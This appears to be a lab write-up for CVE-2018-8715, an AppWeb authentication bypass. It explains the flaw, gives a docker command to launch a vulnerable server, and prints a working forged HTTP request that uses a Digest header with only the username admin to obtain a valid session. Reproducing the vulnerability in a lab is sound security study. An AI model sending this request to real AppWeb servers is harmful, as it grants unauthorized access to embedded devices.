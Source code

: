 # AppWeb Authentication Bypass vulnerability (CVE-2018-8715)


AppWeb is an embedded Web Server based on an open source GPL agreement that was developed and maintained by Embedthis Software LLC. It is written in C/C++ and can run on almost any modern operating system. Of course, it aims to provide a Web Application container for embedded devices.

AppWeb can be configured for authentication, which includes the following three authentication methods:

- `basic`, traditional HTTP basic authentication
- `digest`, improved HTTP basic authentication. At this mode, the Cookie will be used to authentication instead of `Authorization` header.
- `form`, HTML based form authentication

In the Appweb versions before 7.0.3, have a logic flaw related to the authCondition function in `http/httpLib.c`. With a forged HTTP request, it is possible to bypass authentication for the `form` and `digest` login types.

Reference link:

- https://ssd-disclosure.com/index.php/archives/3676

## Vulnerability environment

Launch an Appweb 7.0.1 server with `digest` authentication by executing the following command:

```
docker compose up -d
```

To access `http://your-ip:8080`, you need to enter your account password.

## Exploit

The current username is `admin`, so you can use following request to bypass the authentication:

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin


```

As you can see, since we did not pass in the password field, the server error occurred with a `200 status code` and the session setting header:

![](1.png)

The page can be accessed normally with this session header:

![](2.png)
